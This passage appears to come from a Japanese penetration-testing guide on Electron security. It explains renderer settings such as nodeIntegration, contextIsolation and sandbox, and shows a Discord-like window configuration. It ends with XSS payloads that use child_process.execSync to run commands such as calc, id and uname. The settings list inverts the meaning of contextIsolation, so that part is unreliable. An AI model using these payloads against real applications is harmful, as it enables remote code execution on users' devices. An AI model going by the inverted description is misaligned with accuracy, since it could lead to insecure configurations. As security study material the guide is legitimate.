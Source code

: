 **レンダラープロセス**は、ファイルを読み込むブラウザウィンドウです。
```javascript
const {BrowserWindow} = require('electron');
let win = new BrowserWindow();

//Open Renderer Process
win.loadURL(`file://path/to/index.html`);
```
**レンダラープロセス**の設定は、main.jsファイル内の**メインプロセス**で**設定**することができます。設定が正しく行われている場合、いくつかの設定はElectronアプリケーションがRCEやその他の脆弱性を受けることを防ぎます。

デスクトップアプリケーションは、Node APIを介してユーザーのデバイスにアクセスする可能性があります。次の2つの設定は、アプリケーションのJavaScriptがユーザーのデバイスやシステムレベルのコマンドに直接アクセスできないようにするためのメカニズムを提供します。

* **`nodeIntegration`** - デフォルトでは`off`です。`on`にすると、レンダラープロセスからNodeの機能にアクセスできます。
* **`contextIsolation`** - デフォルトでは`on`です。`on`にすると、メインプロセスとレンダラープロセスは分離されません。
* **`preload`** - デフォルトでは空です。
* [**`sandbox`**](https://docs.w3cub.com/electron/api/sandbox-option) - デフォルトではオフです。これにより、NodeJSが実行できるアクションが制限されます。
* WorkersでのNode Integration
* **`nodeIntegrationInSubframes`** - デフォルトでは`off`です。
* **`nodeIntegration`**が**有効**になっている場合、Electronアプリケーション内のiframeに読み込まれるWebページでNode.jsのAPIを使用することができます。
* **`nodeIntegration`**が**無効**になっている場合、プリロードはiframe内で読み込まれます。

設定の例：
```javascript
const mainWindowOptions = {
title: 'Discord',
backgroundColor: getBackgroundColor(),
width: DEFAULT_WIDTH,
height: DEFAULT_HEIGHT,
minWidth: MIN_WIDTH,
minHeight: MIN_HEIGHT,
transparent: false,
frame: false,
resizable: true,
show: isVisible,
webPreferences: {
blinkFeatures: 'EnumerateDevices,AudioOutputDevices',
nodeIntegration: false,
contextIsolation: false,
sandbox: false,
nodeIntegrationInSubFrames: false,
preload: _path2.default.join(__dirname, 'mainScreenPreload.js'),
nativeWindowOpen: true,
enableRemoteModule: false,
spellcheck: true
}
};
```
以下は[こちら](https://7as.es/electron/nodeIntegration\_rce.txt)からの**RCEペイロード**の一部です：
```html
Example Payloads (Windows):
<img src=x onerror="alert(require('child_process').execSync('calc').toString());">

Example Payloads (Linux & MacOS):
<img src=x onerror="alert(require('child_process').execSync('gnome-calculator').toString());">
<img src=x onerror="alert(require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator').toString());">
<img src=x onerror="alert(require('child_process').execSync('id').toString());">
<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">
<img src=x onerror="alert(require('child_process').execSync('uname -a').toString());">
```
### トラフィックのキャプチャ
